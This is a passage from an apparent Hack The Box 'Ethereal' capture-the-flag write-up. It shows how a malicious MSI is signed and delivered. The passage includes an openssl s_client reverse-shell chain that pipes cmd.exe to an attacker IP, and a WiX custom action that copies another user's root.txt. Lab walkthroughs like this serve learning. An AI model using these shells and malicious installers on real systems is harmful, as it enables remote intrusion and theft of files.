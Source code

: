 And sign it:
```
C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x86>signtool.exe sign /f C:\htb\Ethereal\Thoseguys.pfx C:\htb\Ethereal\thoseguysdirusers.msi
Done Adding Additional Store
Successfully signed: C:\htb\Ethereal\thoseguysdirusers.msi
```

Once this is done, we follow the same process redirecting the msi onto the target machine:
```
Terminal1: openssl s_server -quiet -key key.pem -cert cert.pem -port 73
Terminal2: openssl s_server -quiet -key key.pem -cert cert.pem -port 136 < thoseguysdirusers.msi
|| "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:73 | cmd.exe | "C:\Program files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.22:136 > "c:\users\public\desktop\shortcuts\thoseguysdirusers.msi"
```

Get the signed MSI onto the box and wait...

As we trawl through the list of results we notice something interesting...

![231899237.png]({{site.baseurl}}/Images/Ethereal/231899237.png)

Rupal has the root flag?! Lets see if it's true:

Repeat the process this time changing the xml cmd to steal the flag.
```
<CustomAction Id="SystemShell" Directory="TARGETDIR" ExeCommand="cmd.exe /c type C:\users\rupal\desktop\root.txt > C:\users\public\desktop\shortcuts\thoseguys.txt" Execute="deferred" Impersonate="yes" Return="ignore"/>
```

Repeat all the steps and....
![231735412.png]({{site.baseurl}}/Images/Ethereal/231735412.png)

We have the root.txt flag!
